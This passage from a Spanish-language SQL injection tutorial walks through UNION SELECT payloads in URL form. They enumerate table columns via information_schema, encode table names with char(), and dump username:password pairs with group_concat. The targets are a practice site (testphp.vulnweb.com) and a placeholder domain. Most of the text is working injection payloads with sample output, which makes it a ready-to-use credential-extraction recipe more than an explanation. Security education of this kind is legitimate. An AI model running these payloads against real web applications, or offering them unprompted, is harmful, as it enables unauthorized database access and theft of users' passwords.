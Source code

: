 Una vez localizada la tabla que nos interese (para este caso, la tabla **usuarios**), enumeramos las columnas existentes para dicha tabla en la base de datos.

Para esto usaremos group_concat():

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
```

A veces tenemos que convertir el nombre de la tabla de `string` a `ASCII`:

```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_name=char(117,115,117,97,114,105,111,115)-- -

# OUTPUT

IDUSUARIO,IDEMPRESA,USUARIO,PASSWORD,NOMBRE,ADMINISTRADOR
```

```bash
u -> 117
s -> 115
u -> 117
a -> 97
r -> 114
i -> 105
o -> 111
s -> 115
```

Y esto nos devolverá las columnas dentro de la tabla **users**. Lo que (**group_concat(column_name)**) es concadenar todas las columnas, y (**where table_name='users'**) es sacar las columnas dentro de la tabla **users**. Y ahora si queremos sacar las columnas dentro de una tabla simplemente en el apartado (**table_name=''**) **dentro de las comillas pondremos el nombre de la tabla.**

Una vez sabiendo los nombres de las columnas, aprovechamos la funcionalidad `group_concat` para concatenar todas las columnas cuyos datos queramos visualizar:

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(name),3 from users

http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(usuario,':',password),3,4,5+from+usuarios--%20-

http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,group_concat(usuario,0x3a,password),3,4,5+from+usuarios--%20-
```

`0x3a` en hexadecimal es `:`, se hace asi porque a veces los caracteres **\'SEPARATOR\'** o **\"SEPARATOR\"** pueden dar un error.

Puedes intentar concatenar tambien asi:

```sql
select table_name||':'||column_name from all_tab_columns
select table_name+':'+column_name from information_schema.columns
select concat(table_name,':',column_name) from information_schema.columns
```
